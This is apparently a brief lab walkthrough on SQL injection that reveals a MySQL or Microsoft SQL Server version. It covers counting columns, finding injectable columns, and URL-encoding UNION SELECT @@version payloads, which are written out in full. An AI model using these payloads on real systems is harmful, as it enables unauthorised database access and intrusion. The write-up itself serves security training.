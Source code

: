 ## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Step 1

Check number of column

<img src="../Images/ps1.png" width="500" height="200">

## Step 2

Check in which column we can insert

<img src="../Images/ps2.png" width="550" height="200">

Here we are able to insert in both column

<img src="../Images/ps3.png" width="550" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="../Images/ps4.png" width="550" height="200">

And we have the answer

<img src="../Images/ps5.png" width="550" height="200">

---
